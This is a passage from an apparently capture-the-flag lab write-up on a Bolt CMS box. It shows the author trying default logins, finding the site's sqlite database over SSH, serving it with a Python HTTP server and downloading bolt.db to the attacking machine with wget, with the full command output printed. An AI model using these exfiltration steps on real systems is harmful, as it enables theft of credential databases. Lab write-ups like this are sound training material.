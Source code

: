 ![image-20200401193203772](img/image-20200401193203772.png)

admin:admin or admin:password don't work. If we try the `I forgot my password`, we just see that it sends an email to whatever the username specified is. Knowing that this is a CMS, there must be a database somewhere. And indeed, in the our ssh terminal we can find it at `/var/www/html/bolt/app/database`. So we can simply download this to investigate on our local machine. The good thing is is that the webmaster is using `sqlite` which is not password protected by default.  What we can do is download the database and take a better look with  `DB Browser for SQLite`. To download it, we can easily prompt a http server in the database directory

```sh
[remote]

bolt@bolt:/var/www/html/bolt/app/database$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.15.93 - - [02/Apr/2020 17:32:04] code 404, message File not found
10.10.15.93 - - [02/Apr/2020 17:32:10] "GET /bolt.db HTTP/1.1" 200 -

[local]

#wget http://10.10.10.159:8000/bolt.db                                    
--2020-04-02 19:29:25--  http://10.10.10.159:8000/bolt.db                      
Connecting to 10.10.10.159:8000... connected.                                                                                                                 
HTTP request sent, awaiting response... 200 OK                                                                                                                
Length: 294912 (288K) [application/octet-stream]                               
Saving to: ‘bolt.db’                   
                                                                                                                                                              
bolt.db             100%[=================>] 288.00K  92.2KB/s    in 3.1s                                                                                     

2020-04-02 19:29:29 (92.2 KB/s) - ‘bolt.db’ saved [294912/294912]         
```

